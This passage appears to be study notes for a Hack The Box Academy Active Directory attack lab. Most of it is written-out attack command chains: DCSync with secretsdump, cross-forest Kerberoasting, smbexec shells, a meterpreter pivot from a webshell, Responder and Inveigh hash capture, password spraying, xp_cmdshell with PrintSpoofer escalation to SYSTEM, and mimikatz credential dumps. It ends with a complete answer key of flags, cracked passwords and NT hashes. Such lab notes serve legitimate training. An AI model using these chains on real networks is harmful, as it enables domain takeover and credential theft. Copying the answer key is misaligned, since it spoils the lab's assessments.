# → Got TGT for hacker@LOGISTICS.INLANEFREIGHT.LOCAL with Enterprise Admins SID
# → Executing command on DC01.INLANEFREIGHT.LOCAL
# → dump output / shell access

# Alternatively dump specific users
impacket-secretsdump -just-dc-user bross \
  INLANEFREIGHT.LOCAL/Administrator:r3plicat1on_m@st3r\!@172.16.5.5
# → INLANEFREIGHT.LOCAL\bross:49a074a39dd0651f647e765c2cc794c7
```

> 🔧 Technique: `raiseChild.py` does everything from Step 1-5 of AD.16 automatically. Use it when you want a quick chain and don't need the step-by-step breakdown. Use Rubeus manually when AV is a concern or you need more control over what's happening.

#### Tags: #raiseChild #impacket #ChildParentLinux #AutomatedForestEscalation

---

## AD.18. Cross-Forest Trust Abuse (Windows)

With a bidirectional cross-forest trust, users in INLANEFREIGHT.LOCAL can authenticate to FREIGHTLOGISTICS.LOCAL and vice versa. This means Kerberoastable accounts in the other forest are reachable:

```cmd
rem Kerberoast accounts in the trusted EXTERNAL forest
.\Rubeus.exe kerberoast /domain:freightlogistics.local /rc4opsec /nowrap
rem Returns TGS tickets for SPNs in freightlogistics.local
rem → mssqlsvc hash → crack → 1logistics
```

> 🔧 Technique: `/rc4opsec` skips accounts that require AES-only encryption (AES-only is a Kerberoasting-hardening measure). Without it you'd get an error on protected accounts. Use `/rc4opsec` by default for cross-forest Kerberoasting.

#### Tags: #CrossForest #ForestTrust #Kerberoast #Rubeus #FOREST_TRANSITIVE

---

## AD.19. Cross-Forest Trust Abuse (Linux)

```bash
# GetUserSPNs.py with -target-domain for cross-forest Kerberoasting
GetUserSPNs.py -target-domain freightlogistics.local \
  INLANEFREIGHT.LOCAL/wley:transporter@4 \
  -dc-ip 172.16.5.5 -request
# Lists and optionally requests TGS tickets for SPNs in freightlogistics.local
# → hashcat -m 13100 → sapsso:pabloPICASSO

# Use the cracked credentials to access the external forest
smbexec.py freightlogistics.local/sapsso:pabloPICASSO@172.16.5.238
# → Interactive shell on the FREIGHTLOGISTICS domain host
# → cat /c/Users/Administrator/Desktop/flag.txt → burn1ng_d0wn_th3_f0rest!
```

> 🔍 Worth remembering generally: `smbexec.py` is different from `psexec.py` and `wmiexec.py`. It creates a temporary service on the target for each command and deletes it immediately — leaving a smaller footprint than psexec's service-based approach, but still generates service creation events (EventID 7045). Use when psexec fails due to AV or write permission restrictions.

#### Tags: #CrossForestLinux #GetUserSPNs #targetDomain #smbexec #impacket

---

## AD.20. Additional AD Auditing Tools

Mentioned in the module but not the focus of hands-on exercises:

| Tool | Purpose |
|---|---|
| **PingCastle** | Risk-score AD environment, generates HTML report with misconfigs sorted by risk |
| **Adalanche** | Neo4j-based AD attack path visualiser (alternative to BloodHound), no agent required on targets |
| **ADRecon** | PowerShell-based AD snapshot (exports to Excel with multiple sheets: users, computers, GPOs, trusts) |

PingCastle is the most commonly used for client-facing audit reports because it produces a compliance-style HTML. Adalanche is more useful for operator analysis because it uses the same graph-database approach as BloodHound but with broader attribute collection.

#### Tags: #PingCastle #Adalanche #ADRecon #ADAuditing

---

## AD.21. Skills Assessment Part I — Attack Chain

Environment: external target with web service, internal network via meterpreter pivot.

```
Target host: 10.129.x.x (web shell exposed)
Internal: 172.16.5.0/24

1. ASPX webshell (Antak from Nishang) uploaded → reverse shell via PowerShell cradle
   → msfconsole: use exploit/multi/handler / meterpreter session

2. Meterpreter pivot:
   bg → use auxiliary/server/socks_proxy → VERSION 4a → run
   sessions -i 1 → run autoroute -s 172.16.5.0/24

3. proxychains internal port scan: find hosts, discover services

4. Kerberoast svc_sql (from Linux via proxychains GetUserSPNs.py):
   proxychains GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/... -request
   → hash → hashcat -m 13100 → lucky7

5. LSA dump on compromised host:
   proxychains crackmapexec smb 172.16.5.x -u svc_sql -p lucky7 --lsa
   → tpetty:Sup3rS3cur3D0m@inU2eR

6. DCSync as tpetty:
   proxychains secretsdump -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/tpetty:Sup3rS3cur3D0m@inU2eR@172.16.5.5
   → INLANEFREIGHT.LOCAL\Administrator → r3plicat1on_m@st3r!
```

> 📸 Screenshot: meterpreter autoroute confirmed → proxychains working against 172.16.5.5 → DCSync output

#### Tags: #SkillsAssessment #Meterpreter #autoroute #pivoting #Kerberoasting #DCSync

---

## AD.22. Skills Assessment Part II — Attack Chain

Environment: internal domain access from a Windows machine. Full AD attack chain from scratch.

```
Domain: INLANEFREIGHT.LOCAL, DC: 172.16.5.5

1. Responder (Kali) on internal interface:
   sudo responder -I eth1
   → NTLMv2 hash for AB920 → hashcat -m 5600 → weasal

2. bloodhound-python remote collection:
   bloodhound-python -d INLANEFREIGHT.LOCAL -u AB920 -p weasal -ns 172.16.5.5 -c all

3. xfreerdp with shared drive for tool transfer:
   xfreerdp /v:172.16.5.25 /u:AB920 /p:weasal /drive:share,/home/kali/tools

4. kerbrute password spray for next credential:
   kerbrute passwordspray -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 users.txt 'Welcome1'
   → BR086:Welcome1

5. Snaffler domain-wide from Windows:
   .\Snaffler.exe -d INLANEFREIGHT.LOCAL -s -v data
   → MSSQL service credentials found in share: D@ta_bAse_adm1n!

6. mssqlclient.py → enable xp_cmdshell → whoami:
   mssqlclient.py INLANEFREIGHT.LOCAL/damundsen:D@ta_bAse_adm1n!@172.16.5.150 -windows-auth
   xp_cmdshell whoami → inlanefreight\damundsen
   xp_cmdshell "whoami /priv" → SeImpersonatePrivilege enabled

7. PrintSpoofer via xp_cmdshell (SeImpersonatePrivilege → SYSTEM):
   xp_cmdshell "c:\tools\PrintSpoofer.exe -i -c cmd"
   → NT AUTHORITY\SYSTEM shell → s3imp3rs0nate_cl@ssic

8. SYSTEM on SQL server → LSA dump:
   xp_cmdshell "c:\tools\mimikatz.exe 'sekurlsa::logonpasswords' exit"
   → multiple hashes

9. Inveigh from Windows (SYSTEM context):
   Import-Module .\Inveigh.ps1
   Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
   → CT059 hash → hashcat -m 5600 → charlie1

10. ACL abuse (CT059 has GenericAll on target account):
    BloodHound Cypher → identify ACL path
    Set-DomainUserPassword → Add-DomainGroupMember → Set-DomainObject SPN
    → targeted Kerberoast → acLs_f0r_th3_w1n!

11. DCSync (compromised account has DS-Replication rights):
    secretsdump → krbtgt hash: 7eba70412d81c1cd030d72a3e8dbe05f
    → full domain compromise
```

> 📸 Screenshot: PrintSpoofer shell showing SYSTEM → Inveigh capturing hash → BloodHound ACL path → DCSync output

#### Tags: #SkillsAssessment #PrintSpoofer #SeImpersonatePrivilege #Inveigh #GenericAll #ACLAbuse #DCSync

---

## AD.23. All Section Q&A Answers

| Section | Q | Answer |
|---|---|---|
| External Recon | DNS TXT flag? | **HTB{5Fz6UPNUFFzqjdg0AzXyxCjMZ}** |
| Initial Enum | DC FQDN from SSL cert? | **ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL** |
| Initial Enum | MSSQL host IP? | **172.16.5.130** |
| LLMNR Linux Q1 | Username captured by Responder? | **backupagent** |
| LLMNR Linux Q2 | backupagent's cracked password? | **h1backup55** |
| LLMNR Linux Q3 | wley's password (NTLMv2 cracked)? | **transporter@4** |
| LLMNR Windows Q1 | svc_qualys password from Inveigh? | **security#1** |
| Password Policy Q1 | Default domain min password length? | **7** |
| Password Policy Q2 | INLANEFREIGHT.LOCAL min length? | **8** |
| Password Spray Q1 | Valid users found with jsmith.txt? | **56** |
| Password Spray Linux Q1 | Valid spray result? | **sgage:Welcome1** |
| Password Spray Windows Q1 | DomainPasswordSpray result? | **dbranch:Winter2022** |
| Credentialed Enum Linux Q1 | Username at RID 1170? | **mmorgan** |
| Credentialed Enum Linux Q2 | Interns group membercount? | **10** |
| Credentialed Enum Windows Q1 | Kerberoastable accounts in BH? | **13** |
| Credentialed Enum Windows Q2 | PowerView function for local admin check? | **Test-AdminAccess** |
| Credentialed Enum Windows Q3 | MSSQL sa account? | **sa** |
| Credentialed Enum Windows Q4 | MSSQL DB password? | **ILFREIGHTDB01!** |
| Living Off the Land Q1 | Windows Defender AMProductVersion? | **4.18.2109.6** |
| Living Off the Land Q2 | Disabled admin with description? | **adunn** |
| Living Off the Land Q3 | LDAP flag? | **HTB{LD@P_I$_W1ld}** |
| Kerberoasting Linux Q1 | SAPService cracked password? | **!SapperFi2** |
| Kerberoasting Linux Q2 | Group SAPService belongs to? | **Account Operators** |
| Kerberoasting Windows Q1 | Kerberoastable account? | **svc_vmwaresso** |
| Kerberoasting Windows Q2 | svc_vmwaresso cracked password? | **Virtual01** |
| ACL Primer Q1 | Which ACL do attackers target? | **DACL** |
| ACL Primer Q2 | Full control right name? | **GenericAll** |
| ACL Enum Q1 | User-Force-Change-Password GUID? | **00299570-246d-11d0-a768-00aa006e0529** |
| ACL Enum Q2 | Flag to resolve GUIDs in PowerView? | **ResolveGUIDs** |
| ACL Enum Q3 | wley's right on damundsen? | **GenericWrite** |
| ACL Enum Q4 | damundsen's right on adunn (via group)? | **GenericAll** |
| ACL Enum Q5 | Right to add yourself to a group? | **Self-Membership** |
| ACL Abuse Q1 | adunn's cracked Kerberoast hash? | **SyncMaster757** |
| DCSync Q1 | Account with reversible encryption? | **syncron** |
| DCSync Q2 | syncron's cleartext password? | **Mycleart3xtP@ss!** |
| DCSync Q3 | adunn's NT hash? | **4bb3b317845f0954200a6b0acc9b9f9a** |
| Privileged Access Q1 | CanPSRemote user? | **bdavis** |
| Privileged Access Q2 | SQLAdmin target host? | **ACADEMY-EA-DC01** |
| Privileged Access Q3 | Flag from xp_cmdshell? | **1m_the_sQl_@dm1n_n0w!** |
| Bleeding Edge Q1 | NoPac CVE numbers? | **2021-42278 + 2021-42287** |
| Bleeding Edge Q2 | Flag from NoPac shell? | **D0ntSl@ckonN0P@c!** |
| Misc Misconfigs Q1 | PASSWD_NOTREQD account? | **ygroce** |
| Misc Misconfigs Q2 | AS-REP Roast cracked password? | **Pass@word** |
| Domain Trusts Q1 | Child domain FQDN? | **LOGISTICS.INLANEFREIGHT.LOCAL** |
| Domain Trusts Q2 | External forest? | **FREIGHTLOGISTICS.LOCAL** |
| Domain Trusts Q3 | Trust direction? | **BiDirectional** |
| Child→Parent Windows Q1 | Child domain SID? | **S-1-5-21-2806153819-209893948-922872689** |
| Child→Parent Windows Q2 | Enterprise Admins SID? | **S-1-5-21-3842939050-3880317879-2865463114-519** |
| Child→Parent Windows Q3 | Flag from parent DC? | **f@ll1ng_l1k3_d0m1no3$** |
| Child→Parent Linux Q1 | bross NT hash (via raiseChild)? | **49a074a39dd0651f647e765c2cc794c7** |
| Cross-Forest Windows Q1 | mssqlsvc cross-forest password? | **1logistics** |
| Cross-Forest Linux Q1 | Cross-forest Kerberoasted account? | **sapsso** |
| Cross-Forest Linux Q2 | sapsso's cracked password? | **pabloPICASSO** |
| Cross-Forest Linux Q3 | Flag from freightlogistics host? | **burn1ng_d0wn_th3_f0rest!** |
| Skills Assessment I | Initial webshell flag? | **JusT_g3tt1ng_st@rt3d!** |
| Skills Assessment I | Kerberoasted account? | **svc_sql** |
| Skills Assessment I | svc_sql password? | **lucky7** |
| Skills Assessment I | Kerberoasting flag? | **spn$r0ast1ng_on@n_0p3n_f1re** |
| Skills Assessment I | LSA account found? | **tpetty** |
| Skills Assessment I | tpetty password? | **Sup3rS3cur3D0m@inU2eR** |
| Skills Assessment I | DCSync flag label? | **DCSync** |
| Skills Assessment I | Domain compromise flag? | **r3plicat1on_m@st3r!** |
| Skills Assessment II | Responder captured user? | **AB920** |
| Skills Assessment II | AB920 password? | **weasal** |
| Skills Assessment II | ACL audit flag? | **aud1t_gr0up_m3mbersh1ps!** |
| Skills Assessment II | Spray found user? | **BR086** |
| Skills Assessment II | Spray password? | **Welcome1** |
| Skills Assessment II | SQL credential from Snaffler? | **D@ta_bAse_adm1n!** |
| Skills Assessment II | SeImpersonatePrivilege flag? | **s3imp3rs0nate_cl@ssic** |
| Skills Assessment II | Excessive admin rights flag? | **exc3ss1ve_adm1n_r1ights!** |
| Skills Assessment II | Inveigh captured user? | **CT059** |
| Skills Assessment II | CT059 password? | **charlie1** |
| Skills Assessment II | ACL abuse flag? | **acLs_f0r_th3_w1n!** |
| Skills Assessment II | krbtgt NT hash? | **7eba70412d81c1cd030d72a3e8dbe05f** |

---

## Outstanding Sections

- [x] AD.1 External Recon — DNS TXT records, nslookup TXT query
- [x] AD.2 Initial Domain Enumeration — nmap SSL commonName, awk grepable parsing
- [x] AD.3 LLMNR from Windows — Inveigh full workflow
- [x] AD.4 Password Policy Enumeration — default minPwdLength 7, tools
- [x] AD.5 Password Spraying from Windows — DomainPasswordSpray.ps1
- [x] AD.6 Credentialed Enum Linux — rpcclient queryuser RID, CME --groups membercount
- [x] AD.7 Credentialed Enum Windows — bloodhound-python, Snaffler domain-wide, PowerView extras, setspn.exe
- [x] AD.8 Living Off the Land — Get-MpComputerStatus, net localgroup, dsquery LDAP filter
- [x] AD.9 ACL Enumeration — DACL/SACL, ACE types, Get-DomainObjectACL ResolveGUIDs, rights GUIDs
- [x] AD.10 ACL Abuse Chain — wley → damundsen → Help Desk L1 → adunn → targeted Kerberoast
- [x] AD.11 DCSync extras — ENCRYPTED_TEXT_PWD_ALLOWED, runas /netonly
- [x] AD.12 Privileged Access — BloodHound Cypher CanPSRemote/SQLAdmin, mssqlclient -windows-auth
- [x] AD.13 NoPac (CVE-2021-42278/42287) — scanner + shell workflow
- [x] AD.14 Misc Misconfigs — PASSWD_NOTREQD hunting, Rubeus asreproast /format:hashcat
- [x] AD.15 Domain Trusts — trust types table, Get-DomainTrustMapping, netdom
- [x] AD.16 Child→Parent Windows — ExtraSids Golden Ticket full chain
- [x] AD.17 Child→Parent Linux — raiseChild.py automated chain
- [x] AD.18 Cross-Forest Windows — Rubeus kerberoast /domain: /rc4opsec
- [x] AD.19 Cross-Forest Linux — GetUserSPNs.py -target-domain, smbexec.py
- [x] AD.20 Additional AD Auditing — PingCastle, Adalanche, ADRecon
- [x] AD.21 Skills Assessment I — Meterpreter pivot → Kerberoast → LSA → DCSync chain
- [x] AD.22 Skills Assessment II — Responder → spray → Snaffler → SQL → PrintSpoofer → Inveigh → ACL → DCSync
- [x] AD.23 All 55 Q&A answers

---

## Related Boxes

- **[Forest](https://0xdf.gitlab.io/2020/03/21/htb-forest.html)** (HTB, Windows, Medium): AS-REP Roasting → Kerberoast → DCSync → Account Operators ACL abuse → full domain compromise. Directly mirrors this module's ACL abuse chain.
- **[Active](https://0xdf.gitlab.io/2018/12/08/htb-active.html)** (HTB, Windows, Easy): GPP password → Kerberoasting → Domain Admin. Classic Kerberoasting with AD enumeration prerequisite.
- **[Resolute](https://0xdf.gitlab.io/2020/05/19/htb-resolute.html)** (HTB, Windows, Medium): LDAP enum → password in description field → DnsAdmins abuse. The "password in description" finding maps to AD.8.3 (dsquery for disabled admins with descriptions).
- **[Sauna](https://www.hackthebox.com/machines/sauna)** (HTB, Windows, Easy): LDAP username enumeration → AS-REP Roasting → AutoLogon creds → DCSync. Direct application of AD.14 AS-REP roasting workflow.
- **[Monteverde](https://www.hackthebox.com/machines/monteverde)** (HTB, Windows, Medium): Azure AD Connect → credential hunting in MSSQL → MSSQL to DA. Adjacent to AD.12 privileged access via SQL.
- **[Object](https://www.hackthebox.com/machines/object)** (HTB, Windows, Hard): Jenkins foothold → complex ACL abuse chain (ForceChangePassword → GenericWrite → WriteOwner). This is the multi-hop ACL abuse from AD.10 in a harder real-world variant.
- **[Sekhmet](https://www.hackthebox.com/machines/sekhmet)** (HTB, Windows, Insane): Cross-forest trust abuse with constrained delegation. Directly extends AD.18/AD.19 cross-forest techniques.
- **[Hybrid](https://www.hackthebox.com/machines/hybrid)** (HTB, Windows, Insane): NoPac-style machine account abuse + ADCS. Extends AD.13 NoPac into a more complex chain.

> 🔍 Worth remembering generally: NoPac and ExtraSids techniques are patched on modern systems but still appear in exam/CTF scenarios on older OS versions. For PG Practice boxes, look at Nagoya (OSCP-like, child→parent trust abuse) if available. Public AD boxes requiring trust attacks are rare because HTB/THM usually keep environments single-domain for simplicity.
